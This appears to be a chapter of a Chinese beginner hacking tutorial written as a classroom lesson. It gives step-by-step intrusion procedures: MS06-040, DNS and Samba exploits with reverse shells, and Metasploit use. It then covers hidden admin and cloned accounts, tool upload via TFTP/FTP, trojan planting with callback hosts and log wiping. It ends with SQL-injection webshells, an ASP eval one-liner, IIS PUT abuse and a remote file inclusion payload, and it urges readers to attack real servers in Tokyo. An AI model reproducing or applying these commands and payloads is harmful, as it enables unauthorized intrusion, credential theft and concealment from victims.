这是 2006 年下半年微软公布出来的一个非常严重的远程溢出漏洞。我们可以使用专用的漏洞扫描工具来寻找存在该漏洞的电脑。双击运行 MS06-040_Scan.exe，在 StartIP 栏中输入要扫描的起始地址，比如 192.168.0.1，在 EndIP 栏中输入结束地址，比如 192.168.0.255，点击 Check 按钮后，程序就会自动进行检测了。对于存在漏洞的主机将会显示在下方的输出栏中，如图 5.1。


我们再来看一下另一款扫描工具的使用。双击运行 rpc-server Scanner.exe，在 IP 地址栏中分别输入 192.168.0.1 以及 192.168.0.254，也就是要扫描的开始和结束的 IP 地址，然后点击后边的“添加扫描地址”。这样，要扫描的 IP 地址就会被添加在下方的扫描信息中了，如图 5.2。

然后我们点击左上方的“扫描全部”，程序就会自动进行检测了。扫描完成后，我们就会看到扫描的结果了。“patched”表示该主机已经打过了补丁，“port closed”表示没有检测到开放端口，而“Vulnerable”则表示存在安全漏洞，如图 5.3。


图 5.3

既然已经扫描到存在漏洞的主机了，我们就来看看漏洞利用工具的使用。打开 CMD，输入 ms06040rpc，工具的使用格式就显示出来了，如图 5.4。使用格式主要分为两种：

- `ms06040rpc 目标主机 下载的网址 系统类型`：这种方式主要是利用漏洞从特定的网站下载程序（通常是配置好的木马）来执行。
- `ms06040rpc 目标主机 反弹连接的主机 反弹连接的端口 系统类型`：这种方式主要是反弹来获得一个 cmdshell。


图 5.4

> “反弹来获得一个 cmdshell？这是什么意思？”台下的阿菜不解地问道。

“远程溢出程序在对远程主机溢出成功后，按照作用通常分为以下几种：直接在对方的某个端口上绑定一个 cmdshell 等待我们连接、将对方的一个 cmdshell 反向连接到我们本地电脑监听的某个端口上、在对方的系统中添加一个管理员权限的账号、从某个网址上下载特定的程序来执行。第一种方法最直接，但是倘若对方的系统中安装有网络防火墙，并且禁止我们连接端口的话，那么即使我们能够溢出成功，也会连接不上绑定的 cmdshell。第二种方法目前使用得比较多，因为可以很好地解决防火墙的问题。而添加用户账号，我认为不太实用，因为我们即使添加好了用户账号，也很难使用这些账号与对方建立连接（对于 Win2000/2003 系统会好些），一个是因为有防火墙阻挡，另一个则是因为 XP 系统的特性。而最后一种方法目前使用的也比较多，因为可以直接给对方的系统植入一个配置好的木马程序。”

先使用 nc 在本地监听一个端口，打开 cmd，输入 `nc -vv -l -p 7788`，也就是在本地监听 7788 端口的连接数据，如图 5.5。


图 5.5

重新打开一个 cmd，输入 `ms06040rpc 192.168.0.4 192.168.0.99 7788 1`，其中 192.168.0.4 为存在漏洞的主机，192.168.0.99 是我们在本地监听的电脑，通常也就是我们自己的电脑，7788 为监听的端口，1 表示对方的系统为 Win2000 SP4，倘若对方是 WinXP SP1 的话，就使用 2，如图 5.6。我们看看刚才使用 nc 监听的那个 cmd 窗口，如果溢出成功的话，就会成功得到对方的一个 cmdshell 了，如图 5.7。


图 5.6


图 5.7

我们再来看一下如何使用 tk2006 来溢出这个漏洞。双击运行 tk2006 目录下的 scanner.exe，会弹出一个登录小窗口，我们直接点确定，就可以登录使用了，如图 5.8。


图 5.8

tk2006 的主界面如图 5.9 所示。点击“设置”下的“扫描设置”或者图标栏左数第三个图标，选择“系统设置”下的“扫描参数”，填入要扫描的起始 IP 地址，如图 5.10。


图 5.9

在“扫描设置”下的“普通设置”中，我们可以对扫描的端口进行相应的设置，如图 5.11。在“漏洞设置”里，我们会发现除了 MS06-040 漏洞外，tk2006 还能够检测其他多种远程溢出漏洞以及弱口令等信息，大家可以根据自己的需要进行相应的选择。因为我只想检测 MS06-040 漏洞，所以只选择了其中的“魔波漏洞（ms06-040）”，然后确定就可以了，如图 5.12。


图 5.10

图 5.11

图 5.12

点击“开始操作”下的“开始扫描”或是第一个图标，tk2006 就会自动进行检测了。如果检测到漏洞的话，tk2006 会在下方的操作信息栏中提示“ms06-040 魔波溢出漏洞 溢出成功，查看漏洞主机列表！”，如图 5.13。


图 5.13

我们点击 tk2006 操作信息栏上边的“漏洞主机”，从“溢出主机列表”－“溢出主机”中找到存在漏洞的主机 192.168.0.4，直接双击它，就会弹出一个溢出终端窗口，事实上这就是我们得到的对方的一个 shell，如图 5.14。在溢出终端下方的“操作”栏中输入我们想要运行的命令，比如 **net user**，然后点击后边的“发送命令”，我们就会看到在溢出终端里已经成功地执行了 **net user** 命令，显示出了对方系统内的用户账号信息，如图 5.15。


图 5.14

tk2006 集扫描、溢出于一身，更何况它还集成了终端管理、木马种植、虚拟终端、对方死机等功能，实在是一款不错的工具。

#### 5.1.2 Windows DNS 服务远程溢出漏洞

今年四月中旬，在 Internet 上又公布了微软的一个最新的远程溢出漏洞，这就是 Windows DNS 服务远程溢出漏洞。该漏洞影响 Windows 2000 SP4 以及 Windows 2003 SP0—SP2。那么如何寻找存在该漏洞的主机呢？我们可以使用 superscan 扫描 53 端口来寻找提供了 DNS 服务的主机，然后再使用溢出工具进行测试。

运行 superscan，输入要扫描的起始 IP 地址，在“所有端口定义”中选择 53，很快就扫描结束了，192.168.0.99 这台电脑开启了 DNS 服务，如图 5.16。


我们打开 cmd，输入 dns，漏洞利用程序的使用格式就显示出来了，如图 5.17。先使用 `-s` 参数检测一下远程主机是否存在漏洞：`dns -s 192.168.0.99`。程序检测到 192.168.0.99 这台电脑存在漏洞，DNS 使用的端口为 1028，并且系统类型为 Windows 2003，如图 5.18。


接下来开始进行远程溢出：`dns -t2003chs 192.168.0.99 1028`，`-t2003chs` 表示选择对方的系统类型为简体中文版 Win2003 SP1，1028 则是刚才检测到的对方 DNS 服务使用的端口。最后程序会提示我们 “Attack sent, check port 1100”，也就是溢出数据发送后，让我们检测对方的 1100 端口，如图 5.19。


图 5.19

我们使用 `nc -vv 192.168.0.99 1100` 来连接对方的 1100 端口，溢出成功的话，我们就会得到一个 cmdshell 了，如图 5.20。


图 5.20

### 5.1.3 最经典的溢出工具集 framework-3.0

提起鼎鼎大名的 Metasploit Framework，相信不管是高手，还是菜鸟，知道它的人一定非常多。它是世界上最著名的溢出工具集，其最大的特点就是通用和全面；只需要为工具增加最新的漏洞利用程序，然后选择要使用的 shellcode（也就是溢出程序要完成的功能）。


图 5.21

图 5.22

包括得到一个 cmdshell、添加用户账号、下载程序并执行等等）以及连接方式（有正向连接、反向连接等）就可以了，使用非常简单。目前，其最新的版本为 3.0。

双击运行 framework-3.0.exe，Metasploit Framework 3.0 的安装界面就会出现了，如图 5.21。

点击“Next”后，会出现安装许可协议界面，直接点击“I Agree”，就来到了安装目录的选择上，默认是安装在系统盘的 Program Files\Metasploit\Framework3 目录下，如图 5.22。接着是选择安装到开始—程序栏中的名字，使用默认的 Metasploit 3 就可以，接着点击下面的“Install”按钮，程序就会自动进行安装了，如图 5.23。

安装完成后，会提示我们“Launch the Metasploit Framework”，也就是启动 Metasploit Framework，如图 5.24。


图 5.23

图 5.24

我们点击“Finish”后，就会在桌面上弹出一个黑色的 CMD 窗口，提示我们使用浏览器打开 http://127.0.0.1:55555/ 来运行 msfweb 3.0，如图 5.25。以后我们也可以随时通过“开始”－“程序”－“Metasploit 3”－“Metasploit 3”来运行它。


图 5.25


图 5.26

使用浏览器打开 Metasploit 的界面如图 5.26 所示，点击“Exploits”，就会看到该工具里包含的各种远程溢出漏洞了。我们以微软的 ASN.1 远程溢出漏洞为例来介绍一下它的使用吧，如图 5.27。

找到后，点击它，接着就会出现一个小界面，让我们选择要溢出的系统类型，这个溢出漏洞只有一个选项，直接点击就行了，如图 5.28。


图 5.27


图 5.28

接着会要求我们选择要使用的 shell，我们选择第一个，也就是通用的反弹连接的 cmdshell 吧，如图 5.29。

## 第5章 从零开始学入侵


图 5.29

最后，来到了标准选项，我们在 RHOST 栏输入要溢出的主机 IP 地址 192.168.0.4，在 LHOST 栏输入我们自己的 IP 地址 192.168.0.99，如图 5.30。然后点击下方的“Launch Exploit”，溢出成功的话就会在屏幕上弹出一个 CMD 小窗口，在得到的 cmdshell 下我们可以执行相应的命令了，如图 5.31。Metasploit Framework 的使用就是这么的简单，只需要点点鼠标选择一下，溢出就会成功了。


图 5.30


图 5.31

在 Framework 里还有其它众多的远程溢出，不管是 Windows 下的，还是 UNIX/Linux 下的都有，其使用的方法也都是大同小异，各位同学有空就多使用一下这个工具吧。

> “sagi 老师，溢出别人的电脑到底有什么用呀？如果仅仅是得到对方的一个 cmdshell，那多没有意思呀？”阿黑提问道。  
> “不要小瞧了这个 cmdshell，在这个下面我们可以做很多事的。”

## 5.1.4 得到了 shell 有什么用？

### 5.1.4.1 为自己添加一个用户帐号

我们在得到的 cmdshell 下运行 `net user sagi 135790 /add`、`net localgroup administrators sagi /add` 命令来添加一个用户名是 sagi，密码为 135790 的用户帐号，并将其添加进 administrators 组中，如图 5.32。


图 5.32

但这样添加的用户帐号使用 `net user` 命令一下子就会被发现了，显然很不安全。有些入侵者会添加一个用户名带 `$` 的用户帐号，比如 `hacker$`，这样的帐号虽然使用 `net user` 命令直接查看时看不到，但是使用 `net localgroup administrators` 命令查看 administrators 组信息时却仍然会看到，如图 5.33。因此，我们可以克隆一个用户帐号。


### 5.1.4.2 克隆一个系统帐号

什么是克隆帐号呢？说白了也就是将对方电脑中的一个原有的普通帐号，比如 guest 什么的伪装成和 administrator 系统管理员帐号一样的权限、一样的功能作用，但是使用普通的方法查看 guest 帐号，却和它原来一样。很显然，这样的帐号更加的隐蔽。

我们可以使用 mt、aio 等工具来制作克隆帐号。首先，我们需要将工具上传到对方的电脑中。那么要如何才能将工具上传过去呢？常用的方法主要有以下几种。

- **一、通过 IPC$ 上传**

  关于利用 IPC$ 上传文件的方法，我们曾经在第二堂课中提到过。当时是利用扫描到的弱口令，那么现在，我们就可以先直接添加一个用户帐号，然后利用这个帐号进行连接上传了。

```bash
net use \\192.168.0.4\15790$ /user:sagi
copy mt.exe \\192.168.0.4\admin$
```


命令执行成功后，mt.exe 就会被复制到对方的 winnt 目录（对于 Win2003 系统则是 windows 目录）下了，如图 5.34。不过，这种方法却不适用于 WinXP 系统。

- **二、利用 TFTP 来上传文件**

  我们将需要上传的工具 aio.exe 复制到 tftpd32.exe 的同一目录下，然后直接双击运行 tftpd32.exe，tftp 服务就会运行了，默认使用的是 69 端口，程序会自动检测出我们的 IP 地址，如图 5.35。


图 5.35

我们回到 shell 下，直接运行 **tftp -i 192.168.0.99 get aio.exe**，192.168.0.99 是我们电脑的 IP 地址。很快地，就会提示我们“Transfer successful”，也就是传送成功了，我们在当前目录下就会找到上传的 aio.exe 了，如图 5.36。


图 5.36

- **三、利用 FTP 来上传**

  FTP（文件传输协议）服务是当今网络中使用最广泛的网络服务之一，几乎每一个网站都需要开通 FTP 服务来管理维护服务器上的文件。对黑客们来讲，FTP 不仅仅是用来存放自己黑客工具的好去处，更是可以协助自己来完成入侵。当然，前提是他们需要在网络上拥有一个网页空间，或是在自己的电脑里安装相应的 FTP 组件，让自己的电脑在需要的时候能够成为一个 FTP 主机才行。

然后就可以在 cmd 下使用“ftp IP”，输入自己的登录用户名和密码，登录成功后，再使用“get 文件名”进行下载，或使用“put 文件名”进行上传就可以了。但在溢出后得到的 cmdshell 下，我们却不能直接来使用 FTP，因此通常是将登录及下载文件的命令先写到一个文本文件中，再使用“ftp -s:file.txt”的方式来实现文件的上传与下载。

先在 shell 下使用 echo 命令生成如下的文件：

```
echo open 192.168.0.22 > file.txt
echo sagi >> file.txt
echo 2202553 >> file.txt
echo binary >> file.txt
echo get 1.exe >> file.txt
echo bye >> file.txt
```

其中，192.168.0.22 为 FTP 服务器的地址（使用域名也可以），sagi 是我们的登录名，2202553 为登录的密码，binary 则表示以二进制形式进行文件传输，1.exe 为我们要下载的文件，bye 则表示最后退出 FTP 服务器。文件生成完毕后，我们可以使用“type file.txt”检查一下是否有错误，然后就可以使用 **ftp -s:file.txt** 来自动登录进行下载文件了，如图 5.37。

关于目前最常用的几种上传文件的方法我们就简单地介绍到这儿，接下来我们使用 aio 来克隆一个系统账号。在 shell 下直接运行 aio 就会看到它的详细使用参数了，其中克隆账号的命令参数为 clone，如图 5.38。


图 5.37

图 5.38

我们输入 **aio -clone**，就会得到关于克隆账号的详细使用格式了，继续执行 **aio -clone administrator guest 135790**，aio 就会将 guest 账号克隆成 administrator 账号了，如图 5.39。

##### 5.1.4.3 开启终端服务

接下来，我们帮对方开启终端服务，还是使用 aio 来开启吧（也可以使用 mt.exe），使用的命令参数是 `terminal`，我们输入 `aio -terminal` 就会得到详细的使用格式了，继续执行 `aio -terminal 1435`，也就是开启终端服务，并将终端服务的端口改为 1435，aio 会提示我们需要对方重启后服务才会开启。我们可以直接使用 `aio -reboot` 命令来让对方重启，如图 5.40。然后运行远程桌面连接，在“计算机”栏中输入“192.168.0.4:1435”（1435 为我们更改后的终端服务所使用的端口，如果只输入 IP 或域名的话，则默认连接的为 3389 端口），使用添加的帐号登录对方系统就可以了，如图 5.41。


图 5.39


图 5.40


图 5.41

##### 5.1.4.4 给对方种植一个木马

其实对于菜鸟们来讲，更喜欢使用木马来控制对方的电脑，下边我们简单地介绍一下木马的配置和使用，以上兴为例子，至于灰鸽子、pcshare 等，其配置和使用方法都非常类似。打开上兴 2007，双击运行黑刀专版上兴.exe，木马的主界面就出现了，如图 5.42。我们点击“配置服务端”，先对服务端进行相应的配置。上兴的 IP 通知方式主要有 http 地址、DNS 域名以及静态 IP 地址三种。

如果使用 http 地址通知方式的话，就填写类似 http://www.sagi.net.cn/ip.txt 这样的地址；而如果使用 DNS 域名通知方式，就填写 sagi.vicp.net 这样的动态域名。对于普通家庭宽带拨号用户来讲，他们使用的 IP 地址都是随机不固定的，使用以上两种情况都可以很好地解决木马上线的问题，但一个需要我们拥有网页空间，一个需要我们申请动态域名。而如果是使用静态 IP 地址的话，就填写类似 192.168.0.99:8181 这样的地址（注意，如果使用的是类似 192.168.*.* 这样的局域网地址的话，则只能实现同局域网中的木马上线），如图 5.43。至于其它的选项，大家可以自由地进行选择，最后点击“生成服务端”就可以了。


接下来就可以将生成的木马服务端程序上传到对方的电脑上来执行了，如图 5.44。


如果我们使用的是 DNS 域名上线以及静态 IP 地址上线的话，就可以等着对方通过域名来连接我们的木马客户端了；但如果我们使用的是 http 方式的话，就需要对“自动上线”进行一些设置了。点击“自动上线”，输入 FTP 服务器地址以及登录用户名和密码，存放 IP 的文件要和 http 使用的文件一致，而 IP 文件内容就是自己的 IP 地址和连接的端口，如图 5.45。设置好后，点击“更新到空间”就行了。这样，肉鸡就会自动地通过 ip.txt 文件中的 IP 地址来寻找我们上线了。

好了，现在各位开着上兴等待一会儿，肉鸡就会自动地上线来了，如图 5.46。剩下的吗，通过木马上传下载文件、安装卸载服务、控制对方的屏幕等就随便各位怎么玩了。


##### 5.1.4.5 清除自己入侵的痕迹

入侵的最后一个步骤是什么？不是种下木马，留下后门，而是清除自己入侵的痕迹，因为我们在对方电脑上的操作都会被记录在对方的日志文件中。这样，倘若对方仔细检查这些日志文件的话，就会查出我们的 IP 地址甚至是操作的记录。对于黑客来说，这可是很危险的，因此，必须要将自己的入侵痕迹清除掉。清除日志的方法及工具有许多，我们还是直接使用 aio 吧。

在 shell 下直接输入 **aio -cleanlog**，系统内的日志文件就会被自动清除了，如图 5.47，现在入侵者可以放心地断开连接，安安稳稳地撤退走人了。


关于 Windows 下的远程溢出我们就介绍到这儿，下边来看一下 UNIX/Linux 的远程溢出。有许多人一听到 UNIX/Linux 的名字，就会认为入侵它们是很难的事儿，其实不然，入侵 UNIX/Linux 系统和入侵 Windows 系统一样简单。

#### 5.1.5 菜鸟来玩 UNIX/Linux 远程溢出

##### 5.1.5.1 SunOS telnet 远程溢出漏洞

SunOS（也称为 Solaris，Solaris2.7-SunOS5.7、Solaris2.8-SunOS5.8）是 Internet 上使用较多的一个商业 UNIX 系统，SunOS5.6-5.8 版本的 telnet 服务存在一个远程溢出漏洞，我们来看一下这个漏洞的利用。

要如何寻找开放 telnet 服务的 SunOS 系统呢？我们可以使用第三堂课中介绍的方法，使用 superscan 扫描 23 端口，根据 23 端口返回的信息进行判断，或是直接 telnet 上去进行判断。另一个方法就是使用流光来进行扫描。

打开流光，选择“探测”下的“高级扫描工具”，输入我们要扫描的 IP 地址段，在检测项目中只选择 telnet，如图 5.48，然后开始扫描就行了。流光会通过 23 端口自动判断对方的操作系统类型。看，我们扫描到了两台 SunOS5.7 系统，如图 5.49。


图 5.48


图 5.49

我们在 cmd 下输入 `sun`，工具的详细使用格式就出来了，如图 5.50。


执行 `sun -h 61.155.13.185`，我们会看到程序向远程主机发送了一些字符，如果出现了“read: Connection aborted”类似的提示，则说明该主机没有漏洞或已经修补了该漏洞。而如果出现了“uid=2<bin> gid=2<bin>”以及对方操作系统具体类型、版本信息的话，就说明溢出成功了，我们在 `$` 提示符后边输入命令就可以执行了（这和 Windows 下远程溢出得到 cmdshell 几乎一样吧）。还记得我们在第二堂课中讲过的 UNIX/Linux 命令吗，来温习一下吧，如图 5.51。可惜这台主机没有安装 gcc，也不允许使用 wget，否则的话我们就可以尝试使用 SunOS5.7 的本地溢出程序来获得对方的 root 权限了。


整个溢出过程非常简单吧！这是一个旧的漏洞，不过在 Internet 上仍有许多 SunOS 系统使用的是 5.7 和 5.8 版本（大型的商业 UNIX 系统因为价格昂贵，因此并不向 Windows 那样更新换代较快）供我们来练手的。

今年早些时候，网上公布了 SunOS 5.10/5.11 的 telnet 远程认证绕过漏洞，这个漏洞的利用更加简单，我们仍然使用上述的方法找到开放了 telnet 服务的 SunOS 5.10 或 5.11 系统，然后直接使用 `telnet -l"-froot" ip` 的方式来登录对方，如果对方允许 root 用户远程登录的话，我们将直接获得对方系统的 root 权限；如果对方设置不允许 root 用户远程登录的话，我们可以使用 `telnet -l"-fbin" ip` 的方式进行登录，这样就会获得一个普通权限的 shell 了。

##### 5.1.5.2 Linux SMB 远程溢出漏洞

在 Internet 上使用 Linux 系统的服务器是非常多的，Linux 系统也曾经被公布过许多严重的远程溢出漏洞。我们来简单地看一下 Linux SAMBA 远程溢出漏洞的利用。SMB 服务主要用于文件的共享，该服务在 Windows 下使用得非常多。如果 Linux 系统

## 第五章 从零开始学入侵

开启了该服务的话，就可以在网络里文件共享了，SMB 服务使用的端口为 139。在扫描时，为了区分 UNIX/Linux 系统与 Windows 系统，我们可以选择扫描 22、111 和 139 端口（22、111 端口基本上只在 UNIX/Linux 下开放）。来看一下溢出程序的使用格式，如图 5.52。


图 5.52

使用格式很简单，直接输入 **0x333samba -t 192.168.0.22**，程序会自动检测返回地址，溢出成功的话，我们就会看到 Linux 系统版本信息以及我们当前的用户身份和所属的组信息了，如图 5.53。可以看到，溢出成功后，我们直接得到了 root 权限（类似 Windows 下的系统权限），现在想干吗就干吗。


图 5.53


图 5.54

我们直接执行 `cat /etc/shadow`，系统中的密码就显示了出来，我们直接使用 adduser 命令添加一个用户帐号，然后就可以将这个文件复制到我们电脑上进行密码的破解了，如图 5.54。

在 Linux 下我们除了可以使用 tftp 和 ftp（在 UNIX/Linux 下可以直接正常使用 ftp，这比 Windows 下的利用 ftp 来传输文件要方便些）来传输文件外，还可以使用 wget 命令来进行文件的传输，使用的格式就是 `wget http://www.sagi.net.cn/exp/bindshell.c`，就可以将我们存放在网站上的文件直接下载下来了，如图 5.55。


图 5.55

> “好了，关于远程溢出的使用我们就讲到这儿。以前呀，不管是 Windows 系统还是 UNIX/Linux 系统，公布的远程溢出漏洞都挺多的，可是近一两年来，随着网络的发展和人们安全意识的提高，这种针对系统的远程溢出漏洞已经是越来越少了，特别是对于服务器，基本上除了必要的 Web 服务和 FTP 服务外，都不会开启其它多余的服务，因此再想像以前那样轻松地利用远程溢出漏洞来入侵它们已经是越来越困难了，不过好在黑客们又想出了新的入侵方法，那就是脚本注入攻击。”

### 5.2 网站注入基础入门

### 5.2.1 学会从网上“捡”webshell

许多黑客在入侵了服务器后，都会在对方的服务器上留下 webshell 以供自己使用，有些 webshell 是使用注入工具生成并上传上去的，因此其名字也是固定不变的，比如 diy.asp，入侵者在使用 diy.asp 上传了功能更强大的 webshell 后，有很多人偷懒没有删除掉这个 diy.asp。利用这一点，我们就可以直接在网上搜索这个 webshell，把别人的劳动成果变成自己的，正所谓“高手栽树，菜鸟乘凉”嘛。

打开 Google，在搜索栏里输入 `allinurl:diy.asp`，也就是搜索所有网址中包含 diy.asp 的网站，点击“Google 搜索”后，我们就会找到许多，如图 5.56。

接下来就是一个个地打开看了，哈哈，diy.asp 这个小马出来了，如图 5.57。我们只要在“保存文件的绝对路径”栏里填入绝对路径，比如 `d:\inetpub\wwwroot\vhost\refer\bbs\sagi.asp`，在“输入马的内容”框里直接将功能更强大的 ASP 木马的源代码粘贴进去，再点击保存，就可以得到我们自己的 webshell 了，简单吧。


图 5.56


图 5.57


图 5.58

除了 diy.asp 这个小马外，还有两款国外黑客中使用最多的 PHP 木马，分别是 c99.php 和 r57.php。我们同样可以通过 Google 搜索到这些 webshell。在 Google 里以 **allinurl:c99.php** 或 **allinurl:r57.php** 为关键字进行搜索，找到的也不少哟，如图 5.58。

一个个地打开看看，从中就会找到 webshell 的操作界面了，如图 5.59。这还是一个 Linux 服务器哟！


图 5.59

虽然这样来“捡” webshell 非常省事，可是毕竟有种不劳而获的感觉，说出去没多大面子，而且也没什么技术含量，还是独立自主、自力更生地来获得 webshell 吧。

#### 5.2.2 批量寻找注入点

什么是注入点呢？注入点就是可以实行注入的地方，通常是一个可以访问数据库的链接。只有找到了注入点才可以进行注入攻击。我们可以使用啊D注入工具来批量寻找注入点。

双击运行 DSQLTool.exe，啊D 的界面就出现了，切换到“扫描注入点”功能，在“检测网址”栏中输入 `http://www.google.cn`，然后点击后边的“打开网页”，就会出现 Google 的页面了。我们在 Google 的搜索栏里输入 **allinurl:asp?id**，然后进行搜索，啊D 就会自动检测到注入点并以红色显示在下方的“可用注入点”框中了，如图 5.60。我们只需要将 Google 搜索到的网页一页页地往后翻，就会自动找到更多的注入点了。

我们任意选择下方的一个注入点，点击鼠标右键，在弹出的小菜单中选择“注入检测”就会进入 SQL 检测界面，然后直接点击“注入连接”栏右边的“检测”，就会对网站自动进行注入检测了，如图 5.61、图 5.62。


图 5.60


图 5.61　图 5.62

根据网站所使用的数据库类型不同，主要分为 Access 数据库和 MSSQL 数据库两种，我们先来看一下 Access 数据库的入侵。

#### 5.2.3 Access 数据库入侵

因为 Access 数据库不支持一些扩展函数来执行命令，因此我们通常的做法是猜解出用户帐号和密码，然后登录后台，再找出上传 webshell 的方法。

先点击“检测表段”，啊D 检测出该网站有四个表段，分别为 user、clubconfig、news 和 Manage_User，Manage_User 按照英文意思好像是管理员用户，我们就猜解这个表吧。选中 Manage_User，然后点“检测字段”，啊D 又猜解出了 username、password 和 id 三个字段。我们选中 username（用户名）和 password（密码），点击“检测内容”，啊D 就会自动猜解出用户名和密码了，如图 5.63。

不过这个猜解出来的密码是经过加密的，我们可以使用一个小工具对其进行解密，在“密文”栏输入密码，然后点击“解密”，在“明文”栏密码就显示出来了，如图 5.64。

有了用户名和密码，接下来就是找出管理员后台登录进去，直接点击“管理员口检测”，输入网站地址，然后点击“检测管理员口”，啊D 就会自动猜测可能的管理后台了，如图 5.65。不过，经过检测，却发现上边的那两个地址根本就不是管理后台，还是来换 HDSI 试试吧。


图 5.63


图 5.64

双击运行 HDSI，点击“扫描后台”，在“网址地址”栏输入网址，然后点击“开始扫描”，HDSI 就会自动进行检测了，对于可能存在的管理后台，会显示在最下方的空白框中，如图 5.66。这回 HDSI 没有让我们失望，选中第一个猜测的管理后台，点击“访问本页”，网站的后台终于出来了，如图 5.67。

输入我们刚才猜解出的用户名和密码，顺利地登录了对方的管理后台。进入了后台就要想办法怎样才能得到 webshell 了。在这个后台获取 webshell 比较简单，选择“文章展示”下的“添加文章”，在这儿可以找到允许上传的选项，如图 5.68。先上传一个后缀改为 .jpg 的 ASP 木马，提示上传文件成功，如图 5.69。


图 5.65


图 5.66


图 5.67


图 5.68


图 5.69

然后选择“系统管理”功能下的“数据库备份”，在“当前数据库路径”里填上刚才上传 .jpg 文件的相对路径，“备份数据库目录”里可以保留默认，“备份数据库名称”栏填写一个以 .asp 为后缀的文件名，比如 test.asp，如图 5.70。然后点击“确定”后开始备份，提示成功，并给出了 test.asp 文件的完整路径，如图 5.71。我们根据这个完整路径可以确定 webshell 的访问地址，打开浏览器进行访问，我们 ASP 木马出来了，如图 5.72。


图 5.70


图 5.71


图 5.72

#### 5.2.4 SA 权限的入侵

再来看看 MSSQL 数据库的入侵方法。根据 MSSQL 数据库权限的不同，我们碰到的情况主要有三种：

- SA 权限：SA 是安装 MSSQL 时内置的用户，默认拥有非常高的权限，可以以系统身份来执行各种命令，比如读取注册表、列举目录、上传文件等。
- DB_OWNER 权限：不能执行一些敏感的扩展存储过程和系统命令，但可以添加、删除数据库、建表、删表、备份数据库、执行一些存储过程等。
- Public：公用连接用户，拥有的权限非常低，几乎什么操作也完成不了。

因此对我们来讲，可以利用的就是 SA 和 DB_OWNER 权限两种。

来看这个网站，啊D 检测出来的当前权限为 SA，如图 5.73。我们直接切换到“相关工具”下的“目录查看”，点击检测，对方系统内的目录和文件就会列出来了，我们从中找出该网站的 WEB 路径，如图 5.74。

然后选择“CMD/上传”来直接上传我们的一句话木马，在下边的“本地文件”栏选择我们事先保存好的一句话 .txt 文本，内容为“<%if request("cmd")<>"" then execute request("cmd")%>”，而“目标位置”栏则为上图中所找出来的 WEB 绝对路径，选择“覆盖”，点击“上传”按钮开始上传，不一会儿就可以看到返回的结果，提示“内容写入结束，祝您好运！”，如图 5.75。接下来使用我们的一句话木马客户端进行连接，提交环境变量，成功返回了服务器相关信息，如图 5.76。再使用一句话木马客户端上传我们的大马，成功得到了 webshell，如图 5.77。


图 5.73


图 5.74


图 5.75


图 5.76


图 5.77

#### 5.2.5 DB_OWNER 注入权限入侵

我们再来介绍一下 DB_OWNER 权限下如何通过备份数据库来获取 webshell。比如图 5.78 所示的这个网站，啊D 检测出来为 DB_OWNER 权限。

要想通过数据库备份来得到 ASP 木马，还必须要知道目标网站的 WEB 绝对路径，好在 DB_OWNER 权限也是可以列出目录的，先通过“目录查看”找到目标网站的 WEB 目录，如图 5.79。


图 5.78

图 5.79

然后我们可以使用 GetWebshell ah56bug 大众版进行备份操作，运行后在“注射点”里填上网站的注入点，“数据库”栏填入啊D检测出来的当前数据库名，在“Web 路径”栏填写目标网站的绝对路径，“木马代码”保留默认，密码改为 x，注入类型是字符型，如图 5.80。

以上这些信息都是通过注入工具检测出来的，大家照着填写就可以了。填完后从“第一步”一直点到“第六步”，留意下面的浏览器小窗口哦，没出现什么意外的话就能顺利得到一句话木马了。来试着访问我们的一句话木马，在页面底部看到“Execute”这几个字符就基本上证明成功备份出来了，如图 5.81。


图 5.80

图 5.81

再次使用一句话木马客户端进行连接，提交环境变量，成功返回了服务器的环境变量信息，如图 5.82。再使用一句话木马客户端上传一个大马，就顺利得到 webshell 了，如图 5.83。


图 5.82


图 5.83


图 5.84

至此，最常见也是最基础的利用脚本注入来入侵网站的方法我们就介绍完了，怎么样？也不算难吧！

### 5.3 利用 IIS 写权限来入侵网站

严格意义上来讲，这并不能算是一个漏洞，完全是因为网站管理员对于 IIS 的设置不当，允许了任意用户通过设置的“写入”权限来写一个文件到网站上而造成的。我们来看一下如何利用这个人为的疏忽入侵网站。

双击运行 IISPutScanner.exe，在“Start IP”栏输入要扫描的开始 IP 地址，在“End IP”栏输入结束的 IP 地址，点击 Scan 按钮，就会扫描出许多服务器，凡是前面以红色感叹号标示出来的，就说明该服务器是允许上传文件的，如图 5.84。

我们选中该服务器，点击鼠标右键，在弹出的小菜单中选择“Put file”，然后直接将我们的 ASP 木马的代码复制粘贴在上传文件窗口里，点击“PUT”按钮，就会提示我们“PUT file successful!”上传文件成功，如图 5.85。

我们再打开桂林老兵的“对 IIS 写权限的利用／自定义数据包提交”这个工具，在“域名”栏填入那台服务器的 IP 地址，在“请求文件”栏填上刚才上传的文件，然后再点击“提交数据包”，成功的话，我们就会得到一个名为 hackest.asp 的网马了，如图 5.86。我们通过浏览器访问看看，webshell 出来了，如图 5.87。


图 5.85

图 5.86


图 5.87

如果我们想寻找某个国家或地区存在 IIS 写权限的服务器的话，可以使用纯真 IP 数据库。双击运行后，我们选择“地址=>IP 段”，比如在“查询字段”栏输入“东京”，点击“查询”后，就会列出日本东京地区的 IP 地址段了，如图 5.88。各位同学放学后，就拿日本东京地区的服务器来练练手吧！


### 5.4 教菜鸟来玩远程文件包含漏洞

#### 5.4.1 远程文件包含漏洞利用过程

利用远程文件包含（Remote File Inclusion，也简称为 RFI）漏洞来入侵网站是目前比较新颖的一种入侵方法，也是非常流行的一种入侵方法，尤其是在国外，使用非常广泛。那么什么是远程文件包含漏洞呢？远程文件包含漏洞就是因为 PHP 文件中的变量过滤不严，没有判断提交的参数是本地还是远程主机上的，因此我们可以指定远程主机上的文件作为参数来提交给变量执行，而如果提交的这个文件中存在恶意代码甚至干脆就是一个 PHP 木马的话，文件中的代码或 PHP 木马就会以 WEB 权限被成功执行。

其利用过程通常为首先根据网上公布的漏洞资料，利用 Google 等搜索引擎搜索可能存在漏洞的网站，然后使用包含有恶意代码的文件或是直接使用 PHP 木马进行检测，检测成功的话，寻找对方网站内拥有写权限的目录，上传 PHP 木马来获取 webshell。

我们以七月底公布的 Article Directory（index.php page）远程文件包含漏洞为例来详细介绍一下如何利用这种漏洞来入侵网站。关于该漏洞的搜索及使用格式如图 5.89 所示，我们使用浏览器打开 Google，在搜索栏输入“allinurl:index.php?pagedb”进行搜索，就会找到许多类似的网页了，如图 5.90。

接下来就是打开网站，使用“index.php?page=http://www.sagi.net.cn/c99shell.txt?”进行检测，http://www.sagi.net.cn/c99shell.txt 为存放在我空间上的一个 PHP 木马。很快，我们就找到了一个，如图 5.91，PHP 木马被成功执行了。

图 5.90

图 5.91

